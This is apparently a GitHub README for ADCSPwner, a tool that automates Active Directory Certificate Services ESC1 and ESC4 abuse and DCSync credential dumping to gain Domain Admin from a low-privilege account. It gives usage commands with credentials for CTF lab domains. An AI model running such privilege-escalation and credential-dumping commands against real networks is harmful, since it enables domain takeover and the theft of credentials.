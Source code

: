 # ADCSPwner
An Automated tool leveraging Certipy &amp; secretsdump.py to gain Domain Admin from Low Priv User

## ADCS + DCSync Automation

#### Prerequisites 
```
- Certipy
- secretsdump.py (Part of impacket)
- pip3 install rich
```

### ESC1 - ADCS

```
python3 esc1.py -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -t sequel.htb
```

![image](https://github.com/user-attachments/assets/7c8eb551-4cf9-4194-aa5d-b99a7ce5bedb)


### ESC4 - ADCS

```
python3 esc4.py -u clifford.davey@sendai.vl -p 'RFmoB2WplgE_3p' -t sendai.vl -d 10.10.104.31
```

![image](https://github.com/user-attachments/assets/6cd20428-6349-44e1-a568-281a21fbb7c2)
